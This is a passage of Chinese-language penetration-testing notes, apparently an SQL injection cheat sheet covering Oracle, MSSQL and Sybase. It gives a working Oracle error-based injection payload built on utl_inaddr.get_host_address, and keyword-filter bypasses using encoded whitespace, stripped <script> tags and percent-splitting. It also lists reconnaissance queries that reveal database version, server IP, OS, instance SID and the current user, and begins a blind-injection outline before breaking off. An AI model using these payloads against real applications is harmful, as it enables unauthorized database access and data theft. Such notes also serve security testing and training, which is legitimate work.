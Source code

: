 `count()` 返回匹配的行数  返回指定列数值的和

`utl_http.request()`

`utl_inaddr.get_host_address()` **本意是获取ip 地址，但是如果传递参数无法得到解析就会返回一个oracle 错误并显示传递的参数。** 可以利用这个函数进行报错 但也同样会执行里面的语句返回 如: `utl_inaddr.get_host_address`函数会报错 但里面的`select`语句同样会执行且一并和报错返回

`1' or 1=utl_inaddr.get_host_address((select banner from sys.v_$version where rownum=1))--`

#### 绕过

`/%23%0a/` 空格

`<script>` 前提是`<script>`会被服务器删掉 绕过单词限制 如:

`select banner from sys.v_$version where rownum=1` ==>

`sel<script>ect/*%23%0a*/banner/*%23%0a*/fro<script>m/*%23%0a*/sys.v_$version/*%23%0a*/where/*%23%0a*/rownum=1`

#### 语句

`select * from session_roles` 当前用户权限

`select banner from sys.v_$version where rownum=1` 当前数据库版本

`select utl_inaddr.get_host_address from dual` 服务器监听IP

`select member from v$logfile where rownum=1` 服务器操作系统

`select instance_name fromv$instance;` 服务器sid (远程连接的话需要)

`select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual` 当前连接用户

## MSSQL

绕过

`se%le%ct`

## Sybase



## 盲注

```
Booleanbase
Timebase
Errorbase
```

#### 函数

`length()`获取长度

exp: `length('PASSWORD')` ==> `8`

`substr()` 截取字符串
